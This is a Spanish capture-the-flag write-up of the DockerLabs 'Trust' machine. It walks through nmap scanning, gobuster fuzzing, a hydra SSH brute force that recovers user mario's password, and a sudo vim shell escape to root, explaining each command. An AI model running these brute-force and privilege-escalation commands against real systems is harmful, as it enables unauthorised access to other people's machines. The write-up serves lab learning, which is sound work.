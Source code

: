 Máquina: [Trust](https://dockerlabs.es/#/#Trust), from DockerLabs

## 1) Me anoto la IP que es fundamental para saber a quien atacar

## 2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:

`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`\
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`\
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`\
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`\
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`\
`-n: no quiero resolución DNS, es lento`\
`-Pn: quiero evitar que haga host discovery, puede ser lento`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`\
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`\

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras 
`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `\

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`\
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`\
`-t N: cuantas tareas correr en paralelo por cada ataque`\

Encontré la contraseña del usuario mario:
user: mario | passw: chocolate

Pero necesito la del usuario root

## 7) Necesito escalar privilegios desde el user mario al user root
```
sudo -l
```
Verifico si el usuario actual tiene algún tipo de permiso especial.
Resulta que tiene permiso para correr cualquier cosa con `/usr/bin/vim`. Con lo cual si puedo correr a nivel de sudo vim, puedo aprovechar y ejecutar un comando junto con el launch de vim, por ejemplo
```
sudo /usr/bin/vim -c ':!/bin/bash'
```
Esto me va a abrir una terminal de bash en la cual seré un usuario root. Una vez que cierre esa bash me va a devolver a vim. Sin embargo acá ya termina la máquina pues logré acceder al usuario root.

